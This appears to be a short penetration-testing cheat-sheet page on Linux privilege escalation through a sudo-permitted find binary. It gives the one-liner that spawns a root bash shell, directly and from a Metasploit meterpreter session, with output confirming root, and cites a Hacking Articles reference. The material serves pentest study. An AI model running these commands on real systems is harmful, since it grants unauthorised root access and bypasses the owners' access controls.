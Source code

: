 # Find

## Living off the Land

```
user@debian:~$ sudo find . -exec /bin/bash \; -quit

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

## Metasploit

```
meterpreter > shell -t
[*] env TERM=xterm HISTFILE= /usr/bin/script -qc /bin/bash /dev/null
Process 2510 created.
Channel 20 created.
user@debian:~$ sudo find . -exec /bin/bash -p \; -quit
sudo find . -exec /bin/bash -p \; -quit
root@debian:/home/user# id
id
uid=0(root) gid=0(root) groups=0(root)
root@debian:/home/user#
```

---
## References

- [Hacking Articles: Find Privilege Escalation](https://www.hackingarticles.in/linux-for-pentester-find-privilege-escalation/)